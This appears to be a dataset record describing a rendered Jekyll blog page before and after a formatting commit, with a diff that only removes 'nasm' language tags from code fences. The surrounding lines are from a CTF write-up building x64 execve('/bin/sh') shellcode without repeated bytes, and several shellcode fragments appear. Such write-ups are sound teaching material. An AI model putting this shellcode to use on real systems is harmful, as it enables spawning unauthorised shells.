

Before and after one commit to Vasco-jofra/Vasco-jofra.github.io, a Jekyll site: the page built from _posts/2017-11-06-EasyToSay.md, in a window 1280 px wide and 1400 px high, scrolled down 688 px. Shown: the whole window at 94% size, without its empty margins (158-1121 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
little fixes

````diff
--- a/_posts/2017-11-06-EasyToSay.md
+++ b/_posts/2017-11-06-EasyToSay.md
@@ -29,7 +29,7 @@ First lets try a basic x64 shellcode and see if there are any repeating bytes. T
 
 We get step 3 and 4 for free since all registers are already zero'd from the start. The rest looks something like this:
 
-```nasm
+```
 68 2f 73 68 00      push   0x0068732f   ; 1. '/sh\x00'
 68 2f 62 69 6e      push   0x6e69622f   ; 1. '/bin'
 48 89 e7            mov    rdi, rsp     ; 2. Put the '/bin//sh' addr in rdi
@@ -41,7 +41,7 @@ b0 3b               mov    al, 0x3b     ; 5. Mov to rax the execve syscall numbe
 As we can see on the left there are repeated bytes in the first two intructions.
 Having 2 `push` instructions is not an option since the opcode will be repeated. Lets try to do it with a `mov` instead of a `push` and see if we have better luck.
 
-```nasm
+```
 c7 04 24 2f 73 68 00    mov    DWORD PTR [rsp], 0x0068732f
 68 2f 62 69 6e          push   0x6e69622f
 48 89 e7                mov    rdi, rsp
@@ -51,7 +51,7 @@ b0 3b                   mov    al, 0x3b
 
 That is better but `/bin/sh\x00` contains two `/` (2f) and that is a problem since it is a repeated byte. Also the byte 0x68 is repeated since it is the opcode of `push` and also the letter `'h'`. Let's try another version:
 
-```nasm
+```
 49 bc 2f 62 69 6e 2f    movabs r12,0x68732f6e69622f
 73 68 00
 41 54                   push   r12
@@ -70,7 +70,7 @@ Now the plan is to mask the slash. Instead of putting a slash there directly we
 1. mask `'/'` by sending the value of `'/' - 1`
 2. unmask it by adding `1`, making it a `'/'` again.
 
-```nasm
+```
 49 bc 2f 62 69 6e 2e    movabs r12,0x68732e6e69622f
 73 68 00
 41 54                   push   r12
````
Also changed, not shown: _tools/2018-11-25-format-string-finder-with-binary-ninja.md (+1 -1 lines).
